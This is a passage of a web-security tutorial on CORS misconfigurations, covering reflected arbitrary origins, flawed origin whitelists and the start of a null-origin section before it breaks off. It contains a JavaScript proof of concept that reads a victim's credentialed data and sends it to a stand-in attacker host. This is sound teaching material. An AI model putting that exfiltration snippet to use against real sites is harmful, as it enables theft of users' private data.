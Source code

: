 It responds with:

```html
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Since the app reflects arbitrary origins, it means any domain can access resources from the vulnerable domain. If the response has sensitive info, you can extract it:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
# Error Parsing Origin Headers

Some apps support using a whitelist. When a CORS request is received, the origin is compared to it. If it appears, then it is reflected in the ACAO header. For example:

```html
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The app checks the supplied origin and if it is on the whitelist, it reflects it:

```html
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some orgs allow access from all subdomains and some allow access from other orgs domains including their subdomains. Rules are often implemented by matching URL prefixes or suffixes or via regex. Suppose an app grants access to all domains ending in `normal-website.com`. 

An attacker can gain access by registering `hackernormal-website.com`. Or if an app supports all domains beginning with `normal-website.com` an attacker can register `normal-website.com.evil-user.net`.
# Trusted Null Origin

Origin header supports `null` value. Browsers can send null in various situations:
